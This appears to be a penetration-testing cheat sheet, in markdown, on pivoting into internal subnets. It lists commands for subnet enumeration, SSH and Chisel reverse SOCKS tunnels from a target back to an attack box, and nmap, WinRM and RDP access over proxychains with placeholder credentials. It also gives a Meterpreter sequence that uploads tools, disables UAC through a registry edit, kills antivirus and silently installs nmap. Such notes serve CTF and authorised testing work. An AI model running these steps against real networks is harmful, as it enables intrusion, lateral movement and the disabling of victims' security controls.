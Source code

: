 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)    
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
Nmap scan through a dynamic SOCKS proxy (only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option):       

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    
Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
